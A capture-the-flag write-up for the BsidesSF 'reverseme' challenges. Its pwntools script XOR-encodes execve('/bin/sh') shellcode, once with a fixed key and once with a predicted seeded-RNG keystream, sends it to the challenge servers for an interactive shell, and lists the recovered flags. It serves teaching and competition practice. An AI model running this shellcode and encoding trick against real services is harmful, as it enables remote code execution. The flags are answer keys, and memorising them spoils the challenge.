 ## BsidesSF CTF: reverseme (1,2)
##### *tl;dr: encoded shellcode payloads*

#### This series of challenges revolved around the concept of encoded shellcode. For the easier first challenge, our shellcode only needs to be xor'ed with 0x41 and the server will be the one to decrypt it. 

#### For the second challenge, we also had the hurdle of the RNG to deal with. But since we know the value of the seed, it is easy to predict the next outputs of the RNG by preparing a seeded one ourselves and generate the needed bytes to encode the shellcode with. 

```python
from pwn import *

#: CONNECT TO CHALLENGE SERVERS
#p = process('./reverseme2')
#p = remote("reverseme-53b7d3aa.challenges.bsidessf.net", 1339)
p = remote("reverseme2-24b392b5.challenges.bsidessf.net", 1339)

#: GDB SETTINGS
breakpoints = ['break *main + 283']
#gdb.attach(p, gdbscript = '\n'.join(breakpoints))

#: EXPLOIT INTERACTION STUFF
context.arch = 'amd64'

#: for reverseme1
shellcode = "\x48\x31\xD2\x48\x31\xFF\x48\x31\xF6\x48\x31\xC0\x50\x48\xBB\x2F\x62\x69\x6E\x2F\x2F\x73\x68\x53\x48\x8D\x3C\x24\xB0\x3B\x0F\x05"
'''encoded_shellcode = ""
for sc in shellcode:
	encoded_shellcode += chr(ord(sc) ^ 0x41)'''

#: for reverseme2
from ctypes import *
libc = cdll.LoadLibrary('/lib/x86_64-linux-gnu/libc.so.6')
libc.srand(0x13371337)

encoded_shellcode = ""
for sc in shellcode:
	rng = int(libc.rand())
	encoded_shellcode += chr(ord(sc) ^ ((rng >> 3) & 0xff))

#: PWN THY VULNS
p.sendline(encoded_shellcode)
p.interactive()

#: CTF{me_reverse}
#: CTF{again_me_reverse}
```